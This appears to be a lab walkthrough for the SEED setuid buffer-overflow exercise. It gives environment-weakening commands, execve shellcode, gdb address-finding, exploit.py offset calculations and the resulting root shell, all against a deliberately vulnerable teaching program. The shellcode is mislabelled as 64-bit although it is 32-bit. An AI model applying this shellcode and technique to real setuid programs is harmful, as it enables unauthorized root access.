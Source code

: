 # The steps of attack for part 3

## **Step 1: Setting up the SEED VM on the cloud**

Before the experiment, you need to set up SEED VM under the guidance of this [link](https://seedsecuritylabs.org/labsetup.html).



## **Step 2: Download lab setup files**

Then, download the lab setup files [Labsetup.zip](https://seedsecuritylabs.org/Labs_20.04/Files/Buffer_Overflow_Setuid/Labsetup.zip), and unzip it.



## **Step 3:  Environment Setup**

Execute the following commands to simplify the attack:

```bash
# disable address space randomization
$ sudo sysctl -w kernel.randomize_va_space=0

# link /bin/sh to /bin/zsh
$ sudo ln -sf /bin/zsh /bin/sh
```



## **Step 4: Construct the shellcode**

The following are the the 64-bit shellcodes in byte format

```bytes
# 64-bit shellcode

"\x31\xc0"    # xorl    %eax,%eax
"\x50"        # pushl   %eax
"\x68""//sh"  # pushl   $0x68732f2f
"\x68""/bin"  # pushl   $0x6e69622f
"\x89\xe3"    # movl    %esp,%ebx
"\x50"        # pushl   %eax
"\x53"        # pushl   %ebx
"\x89\xe1"    # movl    %esp,%ecx
"\x99"        # cdq
"\xb0\x0b"    # movb    $0x0b,%al
"\xcd\x80"    # int     $0x80
```



## **Step 5: Compile the vulnerable program(stack.c)**

The vulnerable program(stack.c) is in the `code` folder, and you can compile and setup it using the following two methods:

1. use following commands

```bash
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack ➀
$ sudo chmod 4755 stack ➁
```

2. use make command with `Makefile` which is offered in the `code` folder

```bash
$ make
```



## **Step 6: Debug and compute values needed**

1. use `gdb` to get two address

```bash
$ touch badfile		➝Create an empty badfile

$ gdb stack-L1-dbg	➝stack, if you use method 1 at step5

(gdb) b bof 		➝Set a break point at function bof()
Breakpoint 1 at 0x12ad: file stack.c, line 16.

(gdb) run 			➝Start executing the program
Starting program: /home/seed/Labsetup/code/stack-L1-dbg
Input size: 517
Breakpoint 1, bof (
    str=0xffffd413 '\220' <repeats 120 times>, "a\321\377\377", '\220' <repeats 76 times>...) at stack.c:16
16      {

(gdb) next ➝See the note below
20          strcpy(buffer, str);

(gdb) p $ebp 		➝Get the ebp value
$1 = (void *) 0xffffcfe8

(gdb) p &buffer 	➝Get the buffer’s address
$2 = (char (*)[108]) 0xffffcf74

(gdb) quit 			➝exit
```



## **Step 7: Complete exploit.py**

1. put into the shellcode

```python
shellcode= (
    "\x31\xc0"    # xorl    %eax,%eax
    "\x50"        # pushl   %eax
    "\x68""//sh"  # pushl   $0x68732f2f
    "\x68""/bin"  # pushl   $0x6e69622f
    "\x89\xe3"    # movl    %esp,%ebx
    "\x50"        # pushl   %eax
    "\x53"        # pushl   %ebx
    "\x89\xe1"    # movl    %esp,%ecx
    "\x99"        # cdq
    "\xb0\x0b"    # movb    $0x0b,%al
    "\xcd\x80"    # int     $0x80
).encode('latin-1')
```

2. compute and complete values needed in the `exploit.py`

```python
# two addresses got in step 6
bof = 0xffffcfe8
buffer = 0xffffcf74

# put the shellcode at the end of content
start = 517 - len(shellcode)

# the value of ret is the address of buffer plus the offset of shellcode in the content
ret = buffer + 517 - len(shellcode)

# the value of offset is the address of ebp minus the address of buffer plus 4
offset = bof - buffer + 4
```



## **Step 8: Launching Attack**

After completing all the previous steps, you can execute the following commands to launch the attack:

```bash
$ ./exploit.py 	// create the badfile
$ ./stack-L1 	// launch the attack by running the vulnerable program
$ ./exploit.py
$ ./stack-L1
Input size: 517
# whoami
root
# id
uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),123(docker)
#
```

